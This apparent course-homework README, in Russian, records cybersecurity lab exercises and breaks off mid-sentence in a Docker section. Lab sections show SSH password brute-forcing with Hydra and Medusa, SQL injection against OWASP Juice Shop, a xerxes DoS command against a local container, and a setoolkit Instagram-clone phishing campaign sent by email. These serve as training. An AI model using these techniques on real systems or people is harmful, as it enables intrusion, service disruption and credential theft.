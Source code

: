 # **Cyb04**
Прохождение курса "Кибербезопасность"




<details><summary>Занятие №1 Введение</summary>

___
> Скачать и установить VirtialBox
___

В наличие у меня имеется старый и достаточно слабый ноутбук, который может поддерживать только Win 8.1 без ущерба для производительности. Имеется доступ к ВЦОДу со следующими характеристиками: 27 GHz CPU, 25 Gb Memory, 500 Gb Storage. Исходя из предпосылок было принято развернуть одну мощную хостовую машину на Win 10, скачать и установить на нее VirtualBox, на базе данной хостовой машины строить инфраструктуру для обучения. 

Характеристики ВМ:

![Характеристики_ВМ](/Lesson_1/%D0%94%D0%97%201.png)

</details>

<details><summary>Занятие №2 Virtualbox</summary>

___
> Создать 3 виртуальные машины в VirtualBox и обеспечить сетевую связность
___

Были развернуты 3 виртуальные: Windows Server 2019 (10.10.0.4), Winsows 10 (10.10.0.5), Kali linux (10.10.0.6). В правила брантмауэра на ВМ Windows server 2019 и Windows 10 добавлено/включно правило, которое разрешает ICMP echo request (ping) данных машин.

![Сетевая связность](/Lesson_2/%D0%94%D0%97%202.png)

</details>


<details><summary>Занятие №3 Kali(Bruteforce)</summary>

___
> На машинах с системами Windows Server 2019 и 10 установить и включить SSH, включить RDP. С машины Kali Linux провести сканирование сети. 
___

Результаты сканирования сети, на них видны включенные SSH и RDP:

![Сканирование nmap](/Lesson_3/%D0%94%D0%97%203_1.png)

___
> Подобрать пароль от ssh ВМ Windows 10. 
___

Для удобства и быстроты подбора пароля на ВМ Windows 10 был установлен 2-ухзначный пароль. При помощи инструмента crunch были созданы словари из комбинации цифр и прописных латинских букв. Первый попытки подбора пароля при помощи инструмента Hydra выдавали ошибку (error: all children were disabled due connections error). 

![Ошибка](/Lesson_3/%D0%94%D0%97%203_2%20Hydra%20error.png)

Чтобы решить проблему были предриняты следующие действия:
1. Проверена возможность подключения по ssh вообще - успешно.
2. Были изменены настройки ssh при помощи kali-tweaks - без результатно.
3. Отключен брэнтмауэр ВМ Windows 10 - без результатно.
4. Пустить подбор пароля в один поток и с большим интервалом между запросами - без результатно.
5. Запустить подбор пароля при помощи инструмента medusa - процесс занял очень много времени.
6. Попробовал подобрать пароль к хостовой машине - успешно.

![Успех хост](/Lesson_3/%D0%94%D0%97%203_2%20hydra_host.png)

После перезагрузки системы ВМ Windows 10 (так как на нее скачались критические обновления и требовали перезагрузки) получилось подобрать пароль.

![Успех вм гидра](/Lesson_3/%D0%94%D0%97%203_2%20Hydra%20succes.png)

![Успех вм медуза](/Lesson_3/%D0%94%D0%97%203_2%20medusa_success.png)

___
> Изменить настройки фаервола и политики блокировки учетных записей при неправильном вводе пароля ВМ Windows 10. 
___

При изменении настроек блокировки аккаунта при неправильном вводе пароля hydra опять начала падать в ошибку. Medusa в свою очередь пыталась подобрать пароль, однако это заняло бы слишком много времени.

![Аккаунт](/Lesson_3/%D0%94%D0%97%203_2%20log.png)

При изменении параметров брантмауэра пропала возможность подключения по ssh вообще.

![Брантмауэр](/Lesson_3/%D0%94%D0%97%203_2%20ip.png)

![Ошибка SSh](/Lesson_3/%D0%94%D0%97%203_2%20ssh%20error.png)

</details>

<details><summary>Занятие №4 Основы сетей</summary>

___
> Проработать и изучить модель OSI
___
Была сделана памятка по модели  OSI в которую были добавлены примеры протоколов для каждого уровня, а так же возможные атаки относительно каждого уровня.

![Памятка](/Lesson_4/%D0%94%D0%97%204_1.png)

Текстовый вариант: [Памятка](/Lesson_4/%D0%94%D0%97-4_1.docx)
___
> Расписать из сети 192.168.0.0/25 все подсети с /26 по /30
___

![Подсети](/Lesson_4/%D0%94%D0%97%204_2.png)

Текстовый вариант: [Подсети](/Lesson_4/%D0%94%D0%97%204_2.xlsx)

___
> Конвертировать 3 ip адреса 192.168.100.1, 172.16.0.1, 10.10.10.10 в IPv6
___

![IPv4 to IPv6](/Lesson_4/%D0%94%D0%97%204_3.png)

Текстовый вариант: [IPv4 to IPv6](/Lesson_4/%D0%94%D0%97%204_3.xlsx)

</details>


<details><summary>Занятие №5 Cisco packet tracer</summary>

___
> Зайти в настройки домашнего роутера.	Изучить настройки, сделать скрины настройки проброса портов приложений (на примере если бы вы хотели открыть доступ к домашнему веб-серверу).
___

![Домашний роутер](/Lesson_5/%D0%94%D0%97%205%20home.png)
___
> Работа с Cisco Packet Tracer.	Собрать базовую схему комп-свитч-роутер-свитч-комп. Сегментировать сеть на 10 и 20 vlan, добиться видимости хостов. Настроить сеть, добиться echo ping запросов между хостами. Проследить на симуляции за пакетом ICMP.
___

Создана сеть состоящая из 2-ух коммутаторов, 4-х компьютеров, 1-го роутера. Изначально при подключении всех устройств в сеть, проблем с сетевой связностью не возникло. При разделении на два Vlan'а (10 и 20) компьютеры перестали видеть друг друга. Чтобы восстановить сетевую связность было необходимо: перевести интерфейсы, которые связывают коммутаторы и роутер в trunk mode, также создать на роутере субинтерфейсы с номерами Vlan'ов. 

![Схема](/Lesson_5/%D0%94%D0%97%205%20scheme.png)

![Коммутатор](/Lesson_5/%D0%94%D0%97%205%20com.png)

![Роутер](/Lesson_5/%D0%94%D0%97%205%20rout.png)

После данных действий сетевая связность восстановилась. Было поведена симуляция запроса ICMP echo request - успешно.

![ICMP echo](/Lesson_5/%D0%94%D0%97%205%20pack.png)

Втрорым решением данной проблемы могло быть использование L3 коммутатора с возможностями роутера

![L3](/Lesson_5/%D0%94%D0%97%205%20L3.png)
___
> На 1 из сторон заменить хост на сервер, настроить на сервере web страничку, настроить NAT на роутере, добиться доступа по NAT inside global адресу к web серверу 
___

В схему был добавлен сервер. На нем были настроены DNS и WEB-сервер. Для подключения к нему использовался настроенный статический NAT на роутере. Подключение было успешным из 2-ух Vlan'ов, как по внешнему IP (192.168.100.100 внутренний - 10.10.0.4) так и по доменному имени (test.com).

![Serv](/Lesson_5/%D0%94%D0%97%205%20serv.png)

![NAT](/Lesson_5/%D0%94%D0%97%205%20nat.png)

</details>

<details><summary>Занятие №6 Криптография</summary>

___
> Схема работы IPSec
___

Протоколы, которые используются при создании защищенного канала:

![Протоколы](/Lesson_6/%D0%94%D0%97%206%20ipsecprotocols.png)

Схема создания IPSec тоннеля:

![Схема тоннеля IPSec](/Lesson_6/%D0%94%D0%97%206%20%D1%81%D1%85%D0%B5%D0%BC%D0%B0%20%D1%82%D0%BE%D0%BD%D0%BD%D0%B5%D0%BB%D1%8F.png)

<details><summary>Этапы подключения IKE Phase 1</summary>

Step 1 : Negotiation

The peer that has traffic that should be protected will initiate the IKE phase 1 negotiation. The two peers will negotiate about the following items:

-  Hashing: we use a hashing algorithm to verify the integrity, we use MD5 or SHA for this.
- Authentication: each peer has to prove who he is. Two commonly used options are a pre-shared key or digital certificates.
- DH (Diffie Hellman) group: the DH group determines the strength of the key that is used in the key exchange process. The higher group numbers are more secure but take longer to compute.
- Lifetime: how long does the IKE phase 1 tunnel stand up? the shorter the lifetime, the more secure it is because rebuilding it means we will also use new keying material. Each vendor uses a different lifetime, a common default value is 86400 seconds (1 day).
- Encryption: what algorithm do we use for encryption? For example, DES, 3DES or AES.

Step 2: DH Key Exchange

Once the negotiation has succeeded, the two peers will know what policy to use. They will now use the DH group that they negotiated to exchange keying material. The end result will be that both peers will have a shared key.

Step 3: Authentication

The last step is that the two peers will authenticate each other using the authentication method that they agreed upon on in the negotiation. When the authentication is successful, we have completed IKE phase 1. The end result is a IKE phase 1 tunnel (aka ISAKMP tunnel) which is bidirectional. This means that both peers can send and receive on this tunnel.

</details>

Фаза 1 может проходить в двух режимах:

1. Main mode
2. Aggressive mode

Main mode - данный режим проходит за 6 обменов сообщениями (сообщение с настройками и подтверждение от другой стороны) и считается более безопасным так как меньше информации передается открытым кодом.

Aggressive mode - в данном режиме для поднятия канала необходимо 3 сообщения, но является менее безопасным, так как большее количество информации передается открытым кодом.

<details><summary>Этапы подключения IKE Phase 2</summary>

Just like in IKE phase 1, our peers will negotiate about a number of items:

- IPsec Protocol: do we use AH or ESP?
- Encapsulation Mode: transport or tunnel mode?
- Encryption: what encryption algorithm do we use? DES, 3DES or AES?
- Authentication: what authentication algorithm do we use? MD5 or SHA?
- Lifetime: how long is the IKE phase 2 tunnel valid? When the tunnel is about to expire, we will refresh the keying material.
- (Optional) DH exchange: used for PFS (Perfect Forward Secrecy).

</details>

Информация которая передается через канал IPSec может шифроваться двумя способами:

1. AH (Authentication Header) шифрование заголовка  
2. ESP (Encapsulating Security Payload) шифрование содержимого

Оба протокола поддерживают 2 режима:

- Transport mode (не скрывает оригинальный IP отправителя)
- Tunnel mode (скрывает оригинальный IP отправителя)

![AH](/Lesson_6/%D0%94%D0%97%206%20AH.png)

![ESP](/Lesson_6/%D0%94%D0%97%206%20ESP.png)

![AH+ESP](/Lesson_6/%D0%94%D0%97%206%20ESP.png)

___
> Подключение по SSH к Ubuntu при помощи сертификата
___

Для начала по условию задания необходимо установить ВМ с ОС Ubuntu и подключить к ней два интерфейса: один будет смотреть во внутренную сеть, второй - для подключения к сети интернет. 
 - Создаем еще одну NAT сеть для выхода в интернет с Ubuntu.
 - Создаем ВМ с двумя интерфейсами и подключаем их к сети NAT: один default в сети 10.10.0.0/24, второй ubuntu в сети 54.55.56.0/24.
 - После установки обновляем ОС 

 ```bash
 apt update
 apt upgrade
 ```

 - Проверяем установлен ли ssh сервис.

 ```bash
 systemctl status ssh
 ```
 - Настраиваем интерфейсы. Смотрим как называется каждый интерфес.
 
 ![U intf](/Lesson_6/%D0%94%D0%97%206%20U%20inerf.png)

  - В Ubuntu 22.04 настройки сети расположены не в /etc/network/interfaces, а необходимо создавать конфиг самому /etc/netplan/02-network.yaml (02 - приоритет конфига, чем выше число, тем более приоритетный конфиг).

 ![U netplan](/Lesson_6/%D0%94%D0%97%206%20U%20netplan.png)  
 
 - Проверяем настройки, применяем конфиг и проверяем интерфейсы. Если данный способ не поможет, то можно настроить через визуальный интерфейс настройки сети.
 
 ![U intf2](/Lesson_6/%D0%94%D0%97%206%20U%20inerf2.png)  

 - Теперь пробуем подключиться к ВМ Ubuntu c ВМ Kali по SSH. Если получилось создатьподключение, то далее переходим к созданию пары приватный и публичный ключи, а также установке установке публичного ключа на ВМ Ubuntu. 
 
 ```bash
 # Генерация публичного ключа. Ключ -t отвечает за алгоритм кодировки ключа 
  ssh-keygen 
 # После ввода команды будет 2 опции: указать место создания ключа и его имя, дополнительный пароль при подключении при помощи приватного ключа
 # Копируем ключ на удаленный хост. Если не указывать ключ через параметр -i то будет установлен ключ из стандартного местоположения
  ssh-copy-id -i /home/kali/.ssh/key.pub -p 2222 user@10.10.0.10
 # Вводим пароль пользователя, чтобы успешно установить публичный ключ на удаленную машину
 ```
 > Далее у меня возникли проблемы с подключением при помощи приватного ключа. Были приняты следующие меры: chmod 700 ~/.ssh, chmod 600 на кллючи, изменение крнфига на Ubuntu, дебаг выполнения кода подключения ssh при помощи ключа -v. Решением проблмы оказалось то, что было необходимо создать ключ в формате RSA: ssh-keygen -t RSA, так как по кмолчанию ключи создавались в формате ed25519
  
 - Чтобы подключаться при помощи приватного без ввода пароля необходимо изменить строки в конфиге Ubuntu: PubkeyAuthentication yes, PasswordAuthentication no. После каждого изменения конфига перезапускаем сервис.

 ```bash
 systemctl restart ssh
 ```
 ![U success](/Lesson_6/%D0%94%D0%97%206%20U%20pubkey.png)  

 - После этого был изменен конфиг sshd_config на ВМ Ubuntu для соответствия базовым рекомендациями безопасности.

![U conf1](/Lesson_6/%D0%94%D0%97%206%20U%20conf1.png) 

![U conf2](/Lesson_6/%D0%94%D0%97%206%20U%20conf2.png) 

![U conf3](/Lesson_6/%D0%94%D0%97%206%20U%20conf3.png) 

- Параметр Banner меняет приветствие при успешном SSH подключении. Необходимое нам приветствие записываем в файл /etc/banner.

___
> Настроить на Ubuntu возможность подключения к ней по RDP.
___

[Мануал для поделючения по RDP](https://ubuntu-news.ru/news/ubuntu-2204-podderzhivaet-podklyuchenie-po-protokolu-rdp-iz-korobki)

Так же необходимо выполнить команду и поменять пароль подключения в настройках:

```bash
systemctl --user --global --enable gnome-remote-desktop
```
 При подключении необходимо, чтобы пользователь вошел в систему.

![Успешное RDP-подключение](/Lesson_6/%D0%94%D0%97%206%20%20rdp.png)

___
> Установить и настроить WireGuard VPN на Ubuntu
___

[Мануал для поделючения по VPN](https://habr.com/ru/sandbox/189100/)

Для успешного подключения необходимо указать интерфейс и IP которое используется для выхода в сеть интернет.

![Успешное VPN-подключение](/Lesson_6/%D0%94%D0%97%206%20U%20vpn.png)


</details>

<details><summary>Занятие №7 Типы атак, OWASP top 10</summary>

___
> Изучить SQL запросы.
___

Пройдено.

![SQL](/Lesson_7/%D0%94%D0%97%207%20sql.png)

___
> Лабораторные работы по OWASP TOP 10.
___

Оговорюсь сразу: решал с помощью подсказок.

 1. Lab Broken Access Controll 1

![Lab1](/Lesson_7/%D0%94%D0%97%207%20lab1.png)
 
 2. Lab Broken Access Controll 2

![Lab2](/Lesson_7/%D0%94%D0%97%207%20lab2.png)

 3. Lab Injection 1

 ![Lab3](/Lesson_7/%D0%94%D0%97%207%20lab3.png)

 4. Lab SSRF 1

![Lab4](/Lesson_7/%D0%94%D0%97%207%20lab4.png)

___
> Тренировка поиска уязвимостей на примере OWASP Juice Shop
___

[Мануал по установке и выполнению базовых заданий](https://spy-soft.net/owasp-juice-shop/)

Устанавливаем по мануалу на ВМ Ubunru OWASP juice shop и Burp Suite. После установки node.js нужно зайти на [git OWASP juice shop](https://github.com/juice-shop/juice-shop/releases) скачать необходимый пакет, который будет соответствовать вашей ОС и версии node.js.

 ![Первый запуск](/Lesson_7/%D0%94%D0%97%207%20OJS%200.png)

Решаем задания по мануалу, желательно попробовать сначала решить самому.

 1. Задание один: найти таблицу лидеров

 Решаем при помощи мануала

 ![Задание 1](/Lesson_7/%D0%94%D0%97%207%20OJS%201.png)

 2. Получение доступа к панели администратора

  ![Задание 2](/Lesson_7/%D0%94%D0%97%207%20OJS%202.png)

 3. Создание учетной записи администратора при помощи изменения запроса

 ![Задание 3](/Lesson_7/%D0%94%D0%97%207%20OJS%203.png)

 4. Вход в учетную запись при помощи SQL-инъекции

 ![Задание 4_1](/Lesson_7/%D0%94%D0%97%207%20OJS%204_1.png)

 ![Задание 4_2](/Lesson_7/%D0%94%D0%97%207%20OJS%204_2.png)

 5. Подбор пароля к учетной записи администратора.

 Задание было решено при помощи Burp suite: в результате sql-инъекции были получены имя аккаунта доменного админа и хэш в формате MD5 его пароля. В результате поиска пароля по хэш-сумме в словаре, пароль оказался admin123

  ![Задание 5](/Lesson_7/%D0%94%D0%97%207%20OJS%205.png)

 6. Активация Delux фккаунта.

  Решением стало изменение в запросе поля способа оплаты на любое другое название, либо вообще удаление значения этого поля

  ![Задание 6](/Lesson_7/%D0%94%D0%97%207%20OJS%206.png) 

</details>

<details><summary>Занятие №8 Типы атак 2</summary>

___
> Провести DOS атаку на Juice Shop 
___

По условиям задания необходимо развернуть Juice shop как докер контейнер и провести на него DoS атаку при помощи инструмента xerxes.

Устанавливаем docker на ВМ Ubuntu. [Мануал по установке](https://docs.docker.com/engine/install/ubuntu/)

Разворачиваем контейнер Juice shop.

```bash
sudo service docker start
sudo usermod -aG docker $USER
sudo docker pull bkimminich/juice-shop
sudo docker run -d -p 80:3000 bkimminich/juice-shop
```

Заходим на ВМ с которой будем производить DoS атаку. В нашем случае это будет ВМ Kali. Пробуем открыть в браузере Juice Shop (в поисковой строке вводим IP-адрес ВМ Ubuntu). 

![Проверка Docker](/Lesson_8/%D0%94%D0%97%208%20before.png)

Далее переходим на [git xerxes](https://github.com/XCHADXFAQ77X/XERXES) качаем исолняемый файл и запускаем его.

```bash
sudo chmod 777 ~/xerxes
# ./xerxes IP PORT
sudo ./xerxes 10.10.0.10 80
```

Наблюдаем результат до DoS:

![До](/Lesson_8/%D0%94%D0%97%208%20befor%202.png)

Наблюдаем результат после DoS:

![После](/Lesson_8/%D0%94%D0%97%208%20after%201.png)

![После](/Lesson_8/%D0%94%D0%97%208%20after%202.png)

При этом можно использовать инструмент Wire Shark, чтобы посмотреть весь проходящий трафик. Однако делать это следует осторожно, чтобы машина не зависла от количества перехваченных пакетов.

В результате атаки работоспособность Juice shop не была нарушена.

</details>


<details><summary>Занятие №9 Социальная инженерия, фишинг</summary>

___
> Разослать фишинговое письмо с уникальной информацией, ведущее на копию крупного ресурса (соцсети, почты и т.д.) 
___

По условиям задания необходимо разослать фишинговое письмо пользователю, которое будет вести на evil twin (копию какого-либо популярного ресурса). Суть задания завладеть учетными данными пользователя. Для этого будем использовать инструмент setoolkit.

Для работы setoolkit необходимо сначала установить python. Устанавливаем python на ВМ Ubuntu. 

```bash
# обновляем репозиторий    
sudo apt update
# устанавливаем python
sudo apt install python3
# проверяем работоспособность
python3 --version
```

Устанавливаем setoolkit на ВМ Ubuntu. [Мануал по установке](https://github.com/trustedsec/social-engineer-toolkit?tab=readme-ov-file#linux)

Запускаем инструмент командой

```bash
# выполняем команду в директории setoolkit
# на всякий случай даем привелегии на исполнение файла инструмента
sudo chmod 777 path-to/setoolkit/setoolkit
sudo ./setoolkit
```

При входе в данный инструмент, у меня выбивало ошибку о том, что неправильно указан путь к базам matasploit. Устанавливаем metasploit. [Мануал по установке](https://www.alibabacloud.com/blog/what-is-metasploit-how-to-install-metasploit-on-ubuntu_599955).

При выполнении данного мануала возникла ошибка при выполнении команды:

```bash
sudo msfdb init
```

Для коректного выполнения данной команды необходимо убедиться, что сервис postgresql работает и выполнить команду:

```bash
snap install metasploit-framework
msfdb init
msfconsole
```

Данные команды должны пройти без ошибок и открыться база данных metasploit.

После выполнения этой операции необходимо перейти в конфиг setoolkit (/etc/setoolkit/set.config) и поменять путь к metasploit на тот куда скопировали репозиторий git.

![Конфиг setoolkit](/Lesson_9/%D0%94%D0%97%209%20conf.png)

После чего ошибки должны пропасть, а все инструменты станут доступны.

Теперь необходимо создать копию сайта при помощи которого мы будем воровать учетные данные пользователя. В моем случае я выбрал социальную сеть Instagram, так как при входе в нее сразу есть поля логина и пароля.

Запускаем setoolkit (sudo ./setoolkit) и переходим 1 > 2 > 3 > 2. Так как я буду проверять работу инструмента с ВМ Kali, то указываем IP-адрес внутренней сети (10.10.0.10).

!Важно. Необходимо чтобы 80 порт был при это свободен. Например мы поднимали в прошлом ДЗ контейнер с Juice shop, его будет необходимо закрыть. Программа вам об этом напомнит. 

![Запускает клон сайта](/Lesson_9/%D0%94%D0%97%209%20etwin.png)

После того как сайт заработал, открывам второе окно с терминалом и там запускаем еще один setoolkit для почтовой рассылки. Пред началом рассылки для проверки работоспособности был создан ящик на почте Rambler, так как там в настройках есть данные об SMTP сервере и не нужна дополнительная плата. Переходим 1 > 5 > 1 > 2 и заполняем форму отправки письма. 

Суть моего фишинговова письма была то, что гиперссылка была модифицирована. В тексте ссылки был указан Instagram, а сама ссылка вела на IP-адрес ВМ Ubuntu.

![Рассылка](/Lesson_9/%D0%94%D0%97%209%202.png)

![Доступ к сайту с Kali](/Lesson_9/%D0%94%D0%97%209%20SUC%201.png)

![Успех](/Lesson_9/%D0%94%D0%97%209%20SUC.png)

В ход выполнения ДЗ письмо не получилось отправить с подменным адресом отправителя, вероятно рамблер блокирует такую почту.

</details>


<details><summary>Занятие №10 - 11 Mittre At&ck, Re&ct, D3fence</summary>

___
> Составить матрицу Mittre At&ck для взлома инфраструктуры
___

Cхема инфраструктуры:

![Схема](Lesson_10-11/%D0%A1%D1%85%D0%B5%D0%BC%D0%B0.png)

Методология: при помощи MITRE ATT&CK Navigator составить матрицу потециальной угрозы для инфраструктуры, остовываясь на техниках и тактиках известных группировок.

Для анализа было выбрано 5 группировок: APT28, FIN13, Turla, PLATINUM, Darkhotel. Для каждой группировки был зделан свой слой, в котором была оценена угроза для нашей инфраструктуры тех техник, которые использует группировка. При оценке опасности техники учитывалось не только описание данной техники, но и конкретный способ реализации у этой группировки. 

В добавок к этому был добавлен еще один слой, на который было собрана суммарная информация по всем угрозам.

Экспортированный EXEL-файл со всеми таблицами:

[Mitre Att&ck](Lesson_10-11/summary%20(1).xlsx)

Минимальный набор техник реагирования для нашей системы:

[Mitre React](Lesson_10-11/RE%26CT_Enterprise_Matrix.xlsx)



</details>


<details><summary>Занятие №12 Законодательство и стандарты ИБ</summary>

___
> Ознакомиться с документацией и стандартами в области ИБ
___

 - [X] [Приказ ОАЦ №40 (Кибербез)](https://president.gov.by/fp/v1/508/document-thumb__45508__original/45508.1676445432.32ffad2142.pdf)

 - [X] [Приказ ОАЦ №130 (Кибербез)](https://www.oac.gov.by/public/content/files/files/law/prikaz-oac/2023%20-%20130.pdf)

 - [X] [Приказ ОАЦ №66 (Системы защиты информации)](https://www.oac.gov.by/public/content/files/files/law/prikaz-oac/2020%20-%2066.pdf)

 - [X] [ISO 27001 чеклист](https://www.smartsheet.com/sites/default/files/2020-06/IC-ISO-27001-Checklist-10838_PDF.pdf)

 - [ ] [ISO 27001 implementation guide](https://issuu.com/public-it/docs/certikit_iso27001_implementation_guide_v12?fr=sNDdiNjQyMzg4ODg)

 - [ ] [NIST 800-53 Security and Privacy Controls for Information Systems and Organizations](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-53r5.pdf)

___
> Создать план личного развития и роста в ИБ согласно Cybersecurity Roadmap 
___

[Cybersecurity Roadmap](https://roadmap.sh/cyber-security?s=66e2987012af4935a0b6cf17)

</details>


<details><summary>Занятие №13 Безопасность Windows OS</summary>

___
> Выполнить все пункты настройки windows согласно пунктов на страницах слайда 13 занятия №22-29
___

Настройка системы Windows согласно требованиям слайдов:

 1. Учетные записи и их настройка

![Слайд 22_1](/Lesson_13/%D0%94%D0%97%2013%2022_1.png)

![Слайд 22_2](/Lesson_13/%D0%94%D0%97%2013%2022_2.png)

![Слайд 23_1](/Lesson_13/%D0%94%D0%97%2013%2023_1.png)

![Слайд 23_2](/Lesson_13/%D0%94%D0%97%2013%2023_2.png)

![Слайд 23_3](/Lesson_13/%D0%94%D0%97%2013%2023_3.png)

 2. Включение RDP для УЗ администратора

![Слайд 24_1](/Lesson_13/%D0%94%D0%97%2013%2024_1.png)

![Слайд 24_2](/Lesson_13/%D0%94%D0%97%2013%2024_2.png)

 3. Настройка блокировки рабочего стола

![Слайд 25_1](/Lesson_13/%D0%94%D0%97%2013%2025_1.png)

 4. Установка антивируса

 В ходе установки антивирусного решения столкнулся со следующими проблемами:

   - Большинство бесплатных решений нельзя скачать в нашем регионе без VPN
   - Бесплатные антивирусы не работают на системах Windows Server 

В данном пункте ничего сложного не было, но не смотря на это он был не выполнен.

 5. Настройка установки обновлений

![Слайд 27_1](/Lesson_13/%D0%94%D0%97%2013%2027_2.png)

![Слайд 27_2](/Lesson_13/%D0%94%D0%97%2013%2027_3.png)

 6. Шифрование жесткого диска устройства (BitLocker)

Установка защиты диска ноутбука при помощи USB-устройства:

![Слайд 28_1](/Lesson_13/%D0%94%D0%97%2013%2028_1.png)

Установка защиты Windows Server при помощи файла, сохраненного на сетевой диск:

![Слайд 28_2](/Lesson_13/%D0%94%D0%97%2013%2028_2.png)

!Важно. По умолчанию на системе Windows server отсутствует утилита BitLocker. Ее можно установить при помощи команды в PowerShell

```PowerShell
Install-WindowsFeature BitLocker -IncludeAllSubFeature -IncludeManagementTools -Restart
```

 7. Включить брандмауэр и настроить логирование

![Слайд 29_1](/Lesson_13/%D0%94%D0%97%2013%2029_1.png)

___
> Добавить роль контроллера домена Active Directory
___

![AD](/Lesson_13/%D0%94%D0%97%2013%20ad.png)

___
> Настроить службу DNS
___

Служба DNS насроена. Прямые и обратные А-записи добавлены:

![DNS](/Lesson_13/%D0%94%D0%97%2013%20dns%201.png)

Команды dig и ping по доменному имени:

![Dig](/Lesson_13/%D0%94%D0%97%2013%20dns%20dig.png)

![Ping linux](/Lesson_13/%D0%94%D0%97%2013%20dns%20ping.png)

!Важно. На Debian-подобных системах DNS-сервер прописывается в /etc/resolv.conf

```bash
sudo nano /etc/resolv.conf
```

Ping по доменному имени с ВМ Win10 до ввода в домен:

![Ping win](/Lesson_13/%D0%94%D0%97%2013%20dns%20ping%202.png)

Ping по доменному имени с ВМ Win10 после ввода в домен:

![Ping win](/Lesson_13/%D0%94%D0%97%2013%20dns%20ping%203.png)


</details>


<details><summary>Занятие №14 Безопасность Linux OS</summary>

___
> BIOS/UEFI + парольную политику (слайд 26-30)
___

Настройка системы Lunux согласно требованиям слайдов:

 1. Настройка устройства. BIOS и TPM

 Работа проводится на ВМ которая развернута на гипервизоре Virtualbox, поэтому нетвозможности провести настройку BIOS

 2. Установка новой ОС с форматированием дисков и настройкой шифрования 

![Слайд 27_1](/Lesson_14/%D0%94%D0%97%2014%2027_1.png)

 3. Настройка выполнения парольной политики

![Слайд 28_1](/Lesson_14/%D0%94%D0%97%2014%2028_1.png)

![Слайд 29_1](/Lesson_14/%D0%94%D0%97%2014%2029_1.png)

![Слайд 30_1](/Lesson_14/%D0%94%D0%97%2014%2030_1.png)

 4. Настройка SSH-сервера

 Выполнялось ранее

![Слайд 32_1](/Lesson_14/%D0%94%D0%97%2014%2032_1.png)

 5. Настроить iptables правила в виде файла скрипта *.sh

![iptables_1](/Lesson_14/%D0%94%D0%97%2014%20iptables_1.png)

![iptables_2](/Lesson_14/%D0%94%D0%97%2014%20iptables_2.png)

 ```bash

#!/bin/bash

iptables -A OUTPUT -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT
iptables -A INPUT -p udp --dport 80 -j ACCEPT
iptables -A INPUT -p udp --dport 443 -j ACCEPT
iptables -A INPUT -p tcp -s 10.10.0.0/24 --dport ssh -j ACCEPT
iptables -P INPUT DROP

echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o enp0s8 -j MASQUERADE
iptables -A FORWARD -t ent0s3 -j ACCEPT
 
 ```

 6. Очистить все правила iptables, установить UFW firewall

 ```bash 

 iptables -F

 ```

![Слайд ufw_1](/Lesson_14/%D0%94%D0%97%2014%20ufw_2.png)

![Слайд ufw_2](/Lesson_14/%D0%94%D0%97%2014%20ufw_3.png)

![Слайд ufw_3](/Lesson_14/%D0%94%D0%97%2014%20ufw_4.png)

 ```bash
 #!/bin/bash

 ufw enable

 ufw allo from any to any proto tcp port 80,443
 ufw allo from any to any proto tcp port 80,443
 ufw allo from 10.10.0.0/24 to any app OpenSSH

 ufw route allow in on enp0s3 out on enp0s8 to any from any

 ```


</details>


<details><summary>Занятие №15-16 Защита инфраструктуры предприятия</summary>

___
> Поднять контроллер домена DC1 в отдельной подсети и установить роль DHCP
___

 На ВМ Windows server 2019 были изменены настройки адаптера с подсети 10.10.0.0/24 на 192.168.0.0/24. Были исправлены DNS записи Windows server 2019 для корректной работы сети. Так же была установлена роль DHCP, добавлен пул номеров 192.168.0.99-192.168.0.124, добавлены исключения в выдаче IP-адресов 192.168.0.99 и 192.168.0.101. После этого ВМ Windows 10 введена в домен и установлены настройки адаптера на получение IP-адреса автоматически. DHCP сервер присвоил ВМ Windows 10 IP-адрес 192.168.0.100.

 ![DHCP server](/Lesson_15-16/serv%20dhcp.png)

 ![DHCP win10](/Lesson_15-16/win10%20_%20dhcp.png)

 ___
> Настроить AD GPO согласно лучших практик
___
 
 Необходимо создать OU предприяти, добавить 2 отдела и создать в этих отделах по 2 пользователя. Затем создать групповую политику на каждый из отделов который касается парольной политики. Затем зайти на ВМ Windows 10 и выполнить команду gpresult /r для вывода всех политик, 

 ![GPO_1](/Lesson_15-16/gpo1.png)

 ![GPO_2](/Lesson_15-16/gpo2.png)

 ![GPO_3](/Lesson_15-16/gpo3.png)

Так как данные политики относится к разделу конфигурации компьютера, они не будут применены к пользователям, а значит не будут отражены в списке активных политик. Для того, чтобы посмотреть политики, которые действуют на компьютер необходимо открыть командную строку и ввести команду:

```powershell

gpresult /r /scope:computer

```

 ![GPO_4](/Lesson_15-16/gpo4.png)


</details>


<details><summary>Занятие №17 Защита инфраструктуры приложений</summary>

___
> Исследуем Docker
___

 1. Скачать образ ubuntu:18.04 c hub.docker.io, проверить целостность и соответствие контрольной суммы образа SHA256

 ```bash

 sudo docker pull ubuntu:18.04

 sudo docker image ls

 sudo docker inspect ubuntu:18.04

 ```

 ![Inspect image](/Lesson_17/%D0%94%D0%97_17_1.png)

 2. С помощью команды docker image ls отобразить все docker образы на системе, добавить в группу docker вашего пользователя для запуска команд docker без sudo
 
 Добавляем в группу docker вашего пользователя для запуска команд docker без sudo

 ```bash

 # добавляем группу docker, если надо
 sudo addgroup docker

 # добавляем пользователя в группу docker
 sudo gpasswd -a $USER docker

 # чтобы применить изменения необходимо перезайти в систему либо выполнить команду
 sudo newgrp docker

 # проверяем
 docker run hello-world

 ```

 ![Docker whithout sudo](/Lesson_17/%D0%94%D0%97_17_2.png)

 3. Запустить данный образ в интерактивном режиме в оболочке sh docker run -it <image name> sh

 ![Docker run image](/Lesson_17/%D0%94%D0%97_17_3.png)

 4. Запустить контейнер под пользователем tms. Внутри контейнера выполнить команду whoami для определения пользователя под которым вы запустили контейнер

 Запуск контейнера под хостовым пользователем

 ```bash
 
 # -it -v /etc/passwd:/etc/passwd - указываем хост файл с паролями как войлюм 
 # -u 'id -u':'id -g' - указываем параметры текущего хостового пользователя
 # -v 'pwd':'pwd' - применяем как доступный вольюм домашнюю папку хост-юзера
 # -w 'pwd' - создаем домашнюю директорию на гостевой машине по пути домашней директории хост-юзера
